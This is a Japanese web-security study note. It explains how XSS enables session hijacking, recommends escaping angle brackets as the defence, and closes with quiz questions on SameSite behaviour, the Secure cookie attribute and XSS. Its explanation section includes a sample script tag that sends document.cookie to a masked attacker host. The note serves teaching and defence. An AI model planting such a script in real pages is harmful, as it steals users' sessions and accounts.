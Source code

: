 出典

[https://toukei-lab.com/localstrage](https://toukei-lab.com/localstrage)

[https://developer.mozilla.org/ja/docs/Web/API/Web_Storage_API](https://developer.mozilla.org/ja/docs/Web/API/Web_Storage_API)

[https://qiita.com/terufumi1122/items/76bafb9eed7cfc77b798](https://qiita.com/terufumi1122/items/76bafb9eed7cfc77b798)

### 問題12

### 仕組み

まずXSSと他人のWEBサイトへ悪意のあるスクリプトを埋め込むことで、cookie情報を第三者に抜き取られてしまったら抜き取られた人のアカウントで不正にログインすることができる。このことをセッションハイジャックという

<script type=”text/javascript” >

document.location=”http://●●●●●.com/script.cgi?cookie=”+document.cookie;

</script>

クッキー情報（document.cookie）を、攻撃者のサイト（http://●●●●●.com/）のクッキー情報を抜き取るプログラムへ送っている。

攻撃者は、被害者のCookie情報をもとに不正ログインし、個人情報（クレジットカード情報等も）見ることができる

### 対策

XSSは＜と＞などの文字を、特殊文字として認識するブラウザの仕様を利用した攻撃手法になる。

例えば、<script type=”text/javascript” >はブラウザはスクリプトとして認識してしまう。<>などの特殊文字を、削除（または別の文字へ置換）すればスクリプトではなくただの文字列として認識する。

そのためXSS対策として有効なのは<>などの文字を、特殊文字（タグ）として認識させないようにする。

# 課題２（クイズ）

### クイズ1

- Chrome79とChrome80の場合にSameSiteの挙動はどう異なるのか説明せよ

### クイズ2と3

- インターネット通販A社のサイトで脆弱性検査を実施したところ、指摘事項2点が報告された
- 指摘事項A：画面の遷移の中で、暗号化通信と非暗号化通信が混在しているが、暗号化通信でだけ使用されるべきクッキーに(a)属性が設定されていないページが存在する。
- 指摘事項B：任意のスクリプトが実行可能であるページが存在する

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8ac26390-a207-4204-8b3e-98b6d99c1afa/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8ac26390-a207-4204-8b3e-98b6d99c1afa/Untitled.png)

aに当てはまる文字を入れよ。

指摘事項Bは何の脆弱性か答えよ